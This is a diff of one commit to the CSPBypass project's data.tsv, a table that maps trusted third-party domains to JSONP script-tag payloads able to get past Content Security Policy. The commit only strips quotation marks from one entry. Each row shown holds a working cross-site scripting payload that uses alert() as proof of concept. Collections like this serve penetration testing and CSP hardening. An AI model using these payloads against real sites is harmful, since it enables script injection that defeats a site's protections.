

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Remove quotes around payloads,

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -124,3 +124,3 @@ maps.googleapis.com	<script src="https://maps.googleapis.com/maps/api/js?callbac
 mc.yandex.ru	<script src="https://mc.yandex.ru/watch/9528925/1?wmode=5&callback=alert"></script>
-mts1.googleapis.com '<script src="https://mts1.googleapis.com/mapslt/ft?hl=en&lyrs=ft&x=1&y=1&z=1&src=apiv3&callback=alert(1);alert"></script>'
+mts1.googleapis.com <script src="https://mts1.googleapis.com/mapslt/ft?hl=en&lyrs=ft&x=1&y=1&z=1&src=apiv3&callback=alert(1);alert"></script>
 nominatim.openstreetmap.org	<script src="https://nominatim.openstreetmap.org/search?q=&format=json&addressdetails=1&polygon_geojson=1&json_callback=alert"></script>
```
